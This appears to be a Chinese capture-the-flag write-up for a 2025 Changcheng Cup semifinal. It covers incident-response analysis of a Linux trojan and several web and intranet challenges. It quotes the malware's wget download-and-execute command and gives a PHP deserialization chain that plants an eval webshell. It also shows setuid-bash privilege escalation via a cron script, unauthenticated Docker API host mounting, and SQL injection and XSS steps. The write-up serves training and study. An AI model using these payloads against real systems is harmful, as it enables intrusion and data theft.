# 2025长城杯半决赛ISW

## 应急响应

> 小路是一名网络安全网管，据反映发现公司主机上有异常外联信息，据回忆前段时间执行过某些更新脚本（已删除），现在需要协助小路同学进行网络安全应急响应分析，查找木马，进一步分析，寻找攻击源头，获取攻击者主机权限获取 flag 文件。
>
> 入口主机请通过 ssh 进行登录，登录口令为：ubuntu/admin_123456，如需 root 权限请使用 sudo



### 题目1

找出主机上木马回连的主控端服务器 IP 地址（不定时 (3~5 分钟) 周期性），并以 `flag{MD5}` 形式提交，其中 MD5 加密目标的原始字符串格式 `IP:port`

`ss`命令，凑巧看到外联ip

```
tcp           ESTAB          0       0    192.168.57.210:60024         192.168.57.203:4948
```

拿到ip

```
192.168.57.203:4948
```

```
echo -n "$1" | md5sum | awk '{print "flag{"$1"}"}'
```

md5，拿到flag

```
flag{59110f555b5e5cd0a8713a447b082d63}
```

### 题目2

找出主机上驻留的远控木马文件本体，计算该文件的 MD5, 结果提交形式：`flag{md5}`

分析镜像文件，发现`1.txt`文件



```
wget –quiet http://mirror.unknownrepo.net/f/l/a/g/system_upgrade -O /tmp/.system_upgrade && chmod +x /tmp/.system_upgrade && /tmp/.system_upgrade
```

同目录下`.viminfo`文件

```
# File marks:
'0  6  0  /etc/systemd/system/system-upgrade.service
|4,48,6,0,1740374317,"/etc/systemd/system/system-upgrade.service"
'1  6  0  /etc/systemd/system/system-upgrade.service
|4,49,6,0,1740374161,"/etc/systemd/system/system-upgrade.service"
'2  5  7  /etc/systemd/system/system-upgrade.service
|4,50,5,7,1740374151,"/etc/systemd/system/system-upgrade.service"
```

发现编辑过`/etc/systemd/system/system-upgrade.service`文件（该目录存放服务启动文件）

```
[Unit]
Description=system-upgrade
After=multi-user.target
[Service]
Type=forking
ExecStart=/sbin/insmod /lib/modules/5.4.0-84-generic/kernel/drivers/system/system-upgrade.ko
[Install]
WantedBy=multi-user.target
```

分析`/lib/modules/5.4.0-84-generic/kernel/drivers/system/system-upgrade.ko`

```
v2[55] = 0;
v8[0] = "/usr/bin/wget";
v8[1] = "-O";
v8[2] = "/tmp/systemd-agentd";
v8[3] = "--no-check-certificate";
```

使用wget下载了木马，并且重命名为`systemd-agentd`



ida查看字符串发现该文件在`/lib/systemd/systemd-agentd`



md5加密该文件即可

### 题目3

找出主机上加载远控木马的持久化程序（下载者），其功能为下载并执行远控木马，计算该文件的 MD5, 结果提交形式：`flag{MD5}`

根据上面的分析，知道持久化程序是`system-upgrade.ko`



计算md5即可

```powershell
D:\桌面 ⚡ Get-FileHash -Algorithm MD5 system-upgrade.ko

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             78EDBA7CBD107EB6E3D2F90F5ECA734E                                       D:\桌面\system-upgrade.ko
```

### 题目4

查找题目 3 中持久化程序（下载者）的植入痕迹，计算持久化程序植入时的原始名称 MD5（仅计算文件名称字符串 MD5），并提交对应 `flag{MD5}`

下载痕迹就是`1.txt`那个文件

```
wget –quiet http://mirror.unknownrepo.net/f/l/a/g/system_upgrade -O /tmp/.system_upgrade && chmod +x /tmp/.system_upgrade && /tmp/.system_upgrade
```

原始名称是`.system_upgrade`

### 题目5

分析题目 2 中找到的远控木马，获取木马通信加密密钥, 结果提交形式：`flag{通信加密密钥}`

发现`/proc/self/exe`





怀疑木马通信的加密密钥就是 `unk_4BEFFD`

`ctrl+x`查看交叉引用



查看引用



查看`sub_405EC9+E`，找到该函数

```
_BYTE *sub_405EC9()
{
  _BYTE *result; // rax
  _BYTE *v1; // rsi
  __int64 i; // rdx

  result = (_BYTE *)sub_42C200(24LL);
  v1 = off_6EB168;
  for ( i = 0LL; i != 23; ++i )
    result[i] = v1[i] ^ 0x69;
  off_6EB168 = result;
  return result;
}
```

一眼异或

提取 `unk_4BEFFD` 的数据之后，解码即可

```
unk_4BEFFD = [0x3D, 0x01, 0x20, 0x3A, 0x36, 0x58, 0x3A, 0x36, 0x1D, 0x01, 0x5A, 0x36, 0x3A, 0x5A, 0x0A, 0x3B, 0x5A, 0x1D, 0x36, 0x0F, 0x05, 0x29, 0x0E]

for i in unk_4BEFFD:
    print(chr(i^0x69), end='')
```

`ThIS_1S_th3_S3cR3t_fl@g`

`flag{ThIS_1S_th3_S3cR3t_fl@g}`

## Web-Git

### flag1

查看⽹站 .git ⽬录， wget -r http://172.16.167.40/.git/ 下载 git ⽬录

https://github.com/gakki429/Git_Extract

将各版本的文件恢复

拿到flag

### flag2

扫目录扫到登录框

输入密码后发现sql语句



万能密码登录进去，访问`info.php`进入后台（邮件管理系统），然后上传头像的目录存在1.php，并且和头像1.jpg文件大小相同，判断内容相同



然后就可以连接上shell

放到sqlmap里面进行sql注入，盲注

在数据库中找admin密码

和一个用户的密码猜测有用



### flag3

扫描端口找到110使用这个账号密码进行登录后在邮箱中找到flag3





`flag3{vlge8rfq0baqb6s4gn27y5k9rwur=99b6}`

### flag4

扫描得到 /backup/www.zip

下载源码，可以发现在 sqlhelper.php 存在反序列化

```
<?php

class allstart
{
    public $var1;
    public $var2;

    public function__construct()
    {
            $this->var1=new func1();
    }


    public function__destruct()
    {
            $this->var1->test1();
    }
}

class func1
{
    public $var1;
    public $var2;


    public functiontest1()
    {
        $this->var1->test2();
    }
} 

class func2
{
    public $var1;
    public $var2;


    public function __call($test2,$arr)
    {
            $s1 = $this->var1;
            $s1();
    }
}
class func3
{
    public $var1;
    public $var2;


    public function__invoke()
    {
            $this->var2 = "concat string".$this->var1;
    } 
}
class func4
{
    public $str1;
    public $str2;


    public function__toString()
    {
            $this->str1->get_flag();
            return"1";
    }
}
class toget
{       
    public $todo = "system('echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > /var/www/html/aaa.php');";
    public functionget_flag()
    {
        echo"yes";
            eval($this->todo); 
    }
}

$a = new allstart();
$a->var1 = new func1();
$a->var1->var1 = new func2();
$a->var1->var1->var1 = new func3();
$a->var1->var1->var1->var1 = new func4();
$a->var1->var1->var1->var1->str1 = new toget();

echo urlencode(serialize($a));
```

写马进去后，查看 /home目录，发现 gitlab 文件夹可访问



里面有一个 lookme ，是flag4

### flag5

在/home/ryan目录下存在一个del.py文件

```python
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
```

且可读写可执行，存在计划任务提权

```
chomd u+s /usr/bin/bash
```

/usr/bin/bash -p即可提权至root，在/root目录下发现aim.jpg文件，打开查看为flag5


## CCB2025

### flag1

扫描到feedback.html 可以盲打xss 泄露cookie（根据题目提示也知道是xss）

```

```

这里有点坑，注意将语句写入每一个输入框



拿到管理员cookie登录，访问dashboard.php

还是feedback.html 文件上传.htaccess+jpg马，连接蚁剑拿到flag

### flag2

内网扫描

```
172.18.16.200:22open
172.18.16.100:22open
172.18.16.88:22open
172.18.16.2:53open
172.18.16.88:80open
172.18.16.100:80open
172.18.16.100:631open
172.18.16.200:8000open
172.18.16.88:22375open
172.18.16.200:28010open
172.18.16.100:28010open
172.18.16.88:28010open
[*] WebTitle: http://172.18.16.100      code:200len:1304   title:index
[*] WebTitle: http://172.18.16.88       code:200len:6      title:None
[*] WebTitle: http://172.18.16.88:22375 code:404len:29     title:None
[*] WebTitle: https://172.18.16.200:8000 code:302len:0      title:None 跳转url: https://172.18.16.200:8000/auth?next=%2F
[+] http://172.18.16.88:22375 poc-yaml-docker-api-unauthorized-rce 
```

docker-api未授权

```
docker -H tcp://172.18.16.88:22375  run --privileged=true -it -v /:/tmp web /bin/bash
ccat /tmp/flag.txt
```

挂载宿主机目录即可拿到第二个flag，写个公钥可以用私钥ssh

## 数据管理系统

### flag1

8080是一个shiro框架，尝试爆破key无果

开始查看js找接口，尝试未授权

这里有好几个接口，测试发现`/file/download?path=`可以进行文件下载



然后下载`/proc/self/cmdline`文件，发现是一个jar包正在运行，然后下载下来，反编译

```
查看指定进程的执行命令
sudo cat /proc/70461/cmdline
```



使用 `/proc/<PID>/cwd` 查看进程的当前工作目录。

使用 `/proc/<PID>/fd/` 查看进程打开的文件。

使用 `lsof -p <PID>` 列出指定PID的所有打开文件。

使用 `fuser` 检查特定目录或文件的使用情况。

```
ls -l /proc/<PID>/cwd
ls -l /proc/<PID>/fd/
lsof -p <PID>
fuser -m /path/to/directory
```

找到`shirokey`，打反序列化

然后suid看了一下有base64，提权读flag



扫内网搭代理 发现掉进thinkphp窝了

漏扫一扫发现有thinkphp5.0.23 尝试利用 发现存在waf system用不了会重定向到rasp，但是file_get_contents放出来了，赛后复盘 感觉使用file_get_contents打文件读取rce应该可以绕过其中的waf